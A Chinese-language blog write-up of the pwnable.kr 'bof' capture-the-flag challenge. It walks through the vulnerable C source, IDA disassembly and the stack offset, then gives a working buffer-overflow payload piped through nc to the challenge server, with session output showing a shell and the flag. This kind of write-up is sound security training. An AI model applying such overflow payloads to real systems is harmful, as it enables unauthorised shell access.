 ```yaml
---
title: pwnable.kr-bof
date: 2017-12-08 16:43:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

## 分析
查看源码`bof.c`
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
func函数中如果传入参数为`0xcafebabe`则会获得一个shell，但是main函数中调用func函数时传入了一个错误的数值，显然这题是要通过栈溢出来覆盖形参key的值。
通过ida查看bof程序
```asm
.text:0000062C                 public func
.text:0000062C func            proc near               ; CODE XREF: main+10p
.text:0000062C
.text:0000062C s               = byte ptr -2Ch
.text:0000062C var_C           = dword ptr -0Ch
.text:0000062C arg_0           = dword ptr  8
.text:0000062C
.text:0000062C                 push    ebp
.text:0000062D                 mov     ebp, esp
.text:0000062F                 sub     esp, 48h
.text:00000632                 mov     eax, large gs:14h
.text:00000638                 mov     [ebp+var_C], eax
.text:0000063B                 xor     eax, eax
.text:0000063D                 mov     dword ptr [esp], offset s ; "overflow me : "
.text:00000644                 call    puts
.text:00000649                 lea     eax, [ebp+s]
.text:0000064C                 mov     [esp], eax      ; s
.text:0000064F                 call    gets
```
上面是func函数的汇编片段，可以看到func函数开辟了48h的栈空间，但是gets函数将输入字符串存放在ebp偏移-2ch的位置，再加上ebp，retaddr的大小一共是34h的偏移，这个34h就是overflow到key的偏移，于是有下面的payload
```
(python -c "print 'a'*0x34+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
```
其中加cat维持shell的交互
```
root@kali:~/桌面/pwn/bof# (python -c "print 'a'*0x34+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```